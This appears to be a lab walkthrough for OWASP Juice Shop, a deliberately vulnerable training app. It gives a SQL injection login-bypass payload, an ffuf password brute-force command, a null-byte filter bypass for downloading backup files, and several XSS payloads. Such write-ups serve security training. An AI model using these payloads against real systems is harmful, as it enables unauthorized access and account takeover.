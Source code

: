 # Juicy Shop OWASP





Looking around we can take the admin email in this product's comment

<figure><img src="../../../.gitbook/assets/image (352).png" alt=""><figcaption></figcaption></figure>

```
admin@juice-sh.op
```



## SQLi to bypass login

Intercept the Login request and try to change the parameters with a SQLi payload.

{% code title="Payload" %}
```
email: ' OR 1=1--
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (353).png" alt=""><figcaption></figcaption></figure>

We can see that we bypassed the auth and now we are the admin of the shop.

Now we try to login as other users.

Take the user's email from post's comments.

```
bender@juice-sh.op
stan@juice-sh.op
uvogin@juice-sh.op
jim@juice-sh.op
mc.safesearch@juice-sh.op
accountant@juice-sh.op
bjoern@owasp.org
```

Paste these email in the burp Intruter and watch we can do.

<figure><img src="../../../.gitbook/assets/image (355).png" alt=""><figcaption></figcaption></figure>

We can make access to all users account.



## Broken Auth&#x20;

### Brute Forcing

Try to guess some password using Password brute force.

{% code overflow="wrap" %}
```bash
ffuf -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best1050.txt:W2 -X POST -d "email=admin@juice-sh.op&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.149.131/rest/user/login -fc 401
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (356).png" alt=""><figcaption></figcaption></figure>

```
admin@juice-sh.op : admin123
```



### Trivial reset password questions

<figure><img src="../../../.gitbook/assets/image (357).png" alt=""><figcaption></figcaption></figure>

The question can exploits using OSINT and get personal data from browsing online.

For example Jim wrote a comment refers to Star Treck, this can think us that the Jim is the Star Treck's Jim. And searching online the brother of him is Samuel.

Using this answer above we can change jim's password.



## Sensitive Data Exposure

Navigating in the site we found this exposure directory

<figure><img src="../../../.gitbook/assets/image (358).png" alt=""><figcaption></figcaption></figure>

But to bypass the filter that do not allow us to download files except .md and .pdf, we can use the NULL pointer %2500.

```
http://10.10.94.254/ftp/coupons_2013.md.bak%2500.md
```

&#x20;

## XSS vulnerabilities

DOM XSS

In search bar insert this payload (search bar change the DOM)

```
<iframe src="javascript:alert(`xss`)"> 
```

Stored XSS

Use function /saveLodonIP when a user click on Logout funcion and add this header to store the XSS payload in the "Last Logon IP" page.

```
True-Client-IP: <iframe src="javascript:alert(`xss`)">
```

Reflected

Go to Tracker page and use the id var to exploit XSS vulnerability

```
...id=<iframe src="javascript:alert(`xss`)">
```

Then refresh the page.

